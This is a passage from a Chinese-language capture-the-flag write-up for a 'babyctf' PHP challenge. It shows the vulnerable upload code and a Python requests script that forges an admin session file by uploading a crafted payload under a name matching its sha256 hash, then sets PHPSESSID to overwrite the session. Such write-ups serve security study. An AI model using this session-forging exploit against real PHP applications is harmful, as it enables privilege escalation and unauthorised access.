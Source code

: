 attr 保存路径为空即可（或使用"//"），保存文件名为 提供的文件名 + "_" + 文件内容的 sha256 值。

文件内容为：`username|s:5:"admin";`，只需要将 PHPSESSION 设置为 文件内容的 sha256 值，这样文件上传的路径刚好为，session 会话文件的路径，就可以将其覆盖。

```php
$direction = filter_input(INPUT_POST, 'direction');
$attr = filter_input(INPUT_POST, 'attr');
$dir_path = "/var/babyctf/".$attr;

$file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);
```

Python requests 上传文件：

```python
payload = b'username|s:5:"admin";'
sess_id = hashlib.sha256(payload).hexdigest()
header = f"""
Cookie: PHPSESSID={sess_id}
"""
header = parse_header(header)

data = {
    "direction": "upload",
    "attr": "//"
}

files = {
    "up_file": (
        "sess",
        payload
    )
}
requests.post(url=url,headers=header,files=files,data=data,proxies=proxies)
```

注意：upload 不会有回显，需要确定是否上传成功，请使用 download 进行回显。





上传 success.txt

```php
if($_SESSION['username'] ==='admin')
{
    $filename='/var/babyctf/success.txt';
    if(file_exists($filename)){
            safe_delete($filename);
            die($flag);
    }
}
```

当 username 被构造为 admin 时，会判断 /var/babyctf/success.txt 是否存在。
